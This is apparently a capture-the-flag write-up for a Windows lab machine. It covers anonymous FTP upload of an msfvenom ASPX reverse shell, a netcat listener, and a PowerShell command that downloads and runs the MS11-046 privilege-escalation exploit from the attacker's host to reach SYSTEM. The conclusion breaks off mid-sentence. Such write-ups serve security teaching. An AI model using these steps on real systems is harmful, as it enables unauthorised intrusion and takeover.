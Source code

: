 
# Information Gathering

## Nmap
We begin our reconnaissance by running an Nmap scan checking default scripts and testing for vulnerabilities.

```console
root@kali:~# nmap 10.10.10.5 -sV
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-30 11:10 EDT
Stats: 0:00:25 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 11:11 (0:00:06 remaining)
Nmap scan report for 10.10.10.5
Host is up (0.29s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
80/tcp open  http    Microsoft IIS httpd 7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```
From the above output we can see that ports, **21** and **80** are open.

Let's try to connect to ftp

```console
root@kali:~# ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> passiv



150 Opening ASCII mode data connection.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
```
Here it is seen that ftp allows anonymous login. Let's go ahead and check if ftp allows the 'PUT' command.

[FTP](./Devel/Screenshot_3.png)
{**Figure 1:** Server runs on asp.net)

Idea is to craft a aspx payload and to deliver to the box using ftp PUT command.

We craft payload using msfvenom

[Msfvenom](./Devel/Screenshot_8.png)
(**Figure 2:** Msfvenom)

Delivering the payload
```console
ftp> put shell.asp
local: shell.asp remote: shell.asp
227 Entering Passive Mode (10,10,10,5,192,7).
125 Data connection already open; Transfer starting.
226 Transfer complete.
346 bytes sent in 0.00 secs (1.8748 MB/s)
````

Listening to netcat on port 4444 to catch the shell.

[Netcat](./Devel/Screenshot_4.png)
{**Figure 3:** Netcat listener)

# Exploitation  

Open the ip on the browser and navigate to the payload we delivered on the server.

[Payload](./Devel/Screenshot_5.png)
{**Figure 4:** Payload)

[Shell](./Devel/Screenshot_6.png)
{**Figure 4:** We got a reverse shell!)

[Low Shell](./Devel/Screenshot_7.png)
{**Figure 4:** Shell is a low privileged one)

Shell is a low privilged one, now for privesc.

#Privilege Escalation

[Sysinfo](./Devel/Screenshot_20.png)
{**Figure 4:** Here we see that the machine is running windows 7 build 7600)

Searching google for local prives for windows 7 reveals privesc payload. Next we download that and deliver it to the machine.

[Google](./Devel/Screenshot_19.png)
{**Figure 4:** Local Privesc)

We need to compile the file, all the instructions are in the payload file itself.

After the compilation we could deliver the payload either using ftp or using powershell. Here let's use powershell

Open a server on port 9005 using python

```console
python -m SimpleHTTPServer 9005
```

On the machine shell, type in the command to get a file using powershell
```console
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.20:9005/MS11-046.exe', 'c:\Users\Public\Downloads\MS46.exe')"
```

Exec the executable file

```console
c:\Users\Public\Downloads>MS46.exe
MS46.exe
```

```console
c:\Windows\System32>whoami
whoami
nt authority\system
```


## User Flag

In order to get the user flag, we change the directory to the user Desktop 'babis' and we simply need to use `cat` to read the contents of user.txt
```
root@kali:~$ cat user.txt

```

## Root Flag

There's no need to privesc this box as we could easily change directory to the Administrator Desktop folder and `cat` the root.txt
```
root@kali:~$ cat root.txt

```

# Conclusion
This box could also be solved using msfconsole, catch the shell using meterpreter with the apsx payload, once the shell is acquired background it and run local_exploit_suggester on the session and run the exploit which the 

